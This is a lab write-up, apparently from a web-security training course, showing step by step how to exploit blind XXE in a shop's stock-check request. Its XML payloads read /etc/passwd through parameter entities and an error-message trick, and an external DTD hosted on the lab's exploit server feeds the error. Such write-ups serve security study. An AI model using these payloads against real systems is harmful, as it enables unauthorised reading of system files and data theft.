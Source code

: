 
### Exploiting blind XXE to retrieve data via error messages : PRACTITIONER

---


> Viewing any item and then pressing on `check stock` while having BURPSUITE PROXY HTTP history on.

![](./screenshots/check-stock.png)

> Viewing the `POST` request sent via HTTP history.

![](./screenshots/lab6-1.png)

> We see there is XML being used.
> Trying to view the `/etc/passwd` using this payload.
```XML
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
```
> And then calling it.
```XML
&ext;
```

![](./screenshots/lab6-2.png)

> Tying to use parameter entities instead.
``` XMl
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "file:///etc/passwd" > ]>
```
> And calling it.
``` XML
%ext;
```

![](./screenshots/lab6-3.png)

> We see that we don't see anything, hence, this might be a blind xxe injection.
> Trying to display an error message that contains the contents of the file.
``` XML
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
]>
```

1.  Create an XML parameter entity called `file` that contains the contents of the file `/etc/passwd`.
2.  Create an XML parameter entity called `eval`. In is another parameter entity called `error`.
3. `error` intentionally loads a false file name, and passes the entity `file` as the file name using `%file;`.
4. `file` contains the contents of the `/etc/passwd` file, so the name of the file will be the contents of the file.
5. Finally, use the `eval` entity which declares the `error` entity and runs it. We then use the `error` entity to view its response.

![](./screenshots/lab6-4.png)

> We see that we can't put it inside this document.
> This is something we know since having a parameter entity declared in the definition of another parameter entity is only parsed through external DTD.
> We can try to call this payload from an external document, or DTD.
> We can do that using the exploit server given by the lab, and then reference this external XML entity using the lab url.

> Head to the exploit server, and paste the payload above.
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>" >
%eval;
%error;
```

![](./screenshots/lab6-5.png)

> Saving the URL of the exploit server, and then storing the exploit using the button `store` at the bottom.

```
https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit
```

> Modifying the `POST` request to include this payload from the exploit server.
```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit" > &ext;]>
```

![](./screenshots/lab6-6.png)

> We expect this response as we saw it above, and removed it by using parameter entities instead.
> Modifying the external reference XML entity to be a parameter entity.

```
<!DOCTYPE foo [ <!ENTITY % ext SYSTEM "https://exploit-0a4e005804d421bf82c1691e013400a4.exploit-server.net/exploit" > %ext;]>
```

![](./screenshots/lab6-7.png)

> We see that it tried to read the file `/nonexistent/<file contents>`, which casues an error and then prints out the error.

#### Summary

> Tried to add an XML entity, but it didnt work. So we tried using parameter entities and we saw that it passes the XML injection check.
> So we tried using the error messages, but we see that the entities are still recognized, so we add the error message payload somewhere else and reference it using an external entity.
> We then call this external entity as a parameter entity and display the results.

---
